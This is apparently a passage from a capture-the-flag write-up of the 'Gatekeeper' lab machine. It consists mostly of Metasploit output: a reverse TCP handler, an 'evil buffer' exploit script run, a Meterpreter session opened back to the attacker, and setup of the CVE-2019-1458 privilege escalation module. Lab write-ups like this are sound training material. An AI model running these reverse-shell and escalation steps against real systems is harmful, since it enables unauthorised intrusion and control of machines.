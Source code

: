     [*] Started reverse TCP handler on 10.18.22.77:4444 

Executing the script:

    python3 exploit2.py
    Sending evil buffer...
    Done!

And:

    msf6 exploit(multi/handler) > exploit
    
    [*] Started reverse TCP handler on 10.18.22.77:4444 
    [*] Sending stage (175686 bytes) to 10.10.56.225
    [*] Meterpreter session 1 opened (10.18.22.77:4444 -> 10.10.56.225:49210) at 2022-12-14 00:45:32 +0000
    
    meterpreter > 

Backgrounding meterpreter:

    meterpreter > background
    msf6 exploit(multi/handler) > sessions
    
    Active sessions
    ===============
    
      Id  Name  Type                  Information            Connection
      --  ----  ----                  -----------            ----------
      1         meterpreter x86/wind  GATEKEEPER\natbat @ G  10.18.22.77:4444 -> 1
                ows                   ATEKEEPER              0.10.56.225:49210 (10
                                                             .10.56.225)
    msf6 exploit(multi/handler) > sessions
    msf6 exploit(multi/handler) > use windows/local/cve_2019_1458_wizardopium
    msf6 exploit(windows/local/cve_2019_1458_wizardopium) > show options

Trying wizardopium for [CVE-2019-1458](https://www.exploit-db.com/exploits/48180):

    msf6 exploit(multi/handler) > use windows/local/cve_2019_1458_wizardopium
    [*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
    msf6 exploit(windows/local/cve_2019_1458_wizardopium) > show options
    
    Module options (exploit/windows/local/cve_2019_1458_wizardopium):
    
       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       SESSION                   yes       The session to run this module on
     
    Payload options (windows/x64/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thr
                                            ead, process, none)
       LHOST     192.168.122.82   yes       The listen address (an interface may b
                                            e specified)
       LPORT     4444             yes       The listen port

    Exploit target:
    